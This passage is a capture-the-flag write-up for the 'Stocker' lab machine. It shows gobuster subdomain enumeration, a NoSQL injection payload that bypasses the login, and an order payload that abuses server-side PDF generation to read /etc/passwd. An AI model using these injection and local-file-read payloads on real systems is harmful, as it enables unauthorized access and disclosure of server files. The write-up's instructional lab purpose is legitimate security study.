 ### Foothold

we have 2 ports open: 22(ssh) , 80(http).

add `stocker.htb` to `/etc/hosts` file.

visiting this page we see one comment from `Angoose Garden, Head of IT at Stockers Ltd.`

next we try to bruteforce subdomains:

```shell
┌──(Jack㉿Sparrow)-[~]
└─$ gobuster vhost -u stocker.htb -w /usr/share/wordlists/dirb/common.txt  --append-domain  -t 100
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /usr/share/wordlists/dirb/common.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/30 02:44:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/03/30 02:45:04 Finished
===============================================================
```

again we need to add `dev.stocker.htb` to `/etc/hosts` file.

#### NoSQL Injection Login bypass

after few try and errors we found that login page is vulnerable to NoSQL Injection.

`Content-Type: application/json`

Payload: `{"username": {"$ne": null}, "password": {"$ne": null}}`

here we can purchase something through api and on view order it will generate pdf or that order.

Since it generates PDF on the server side, let's see if we can include server files.

#### Read local files using PDF generation

Let's try to Read local file.

Path:`api/order`
Payload:
```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///etc/passwd'>","description":"It's a red cup.","image":"/etc/passwd","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
response:
```json
{"success":true,"orderId":"642550c92e188ca84f0a3f46"}
```
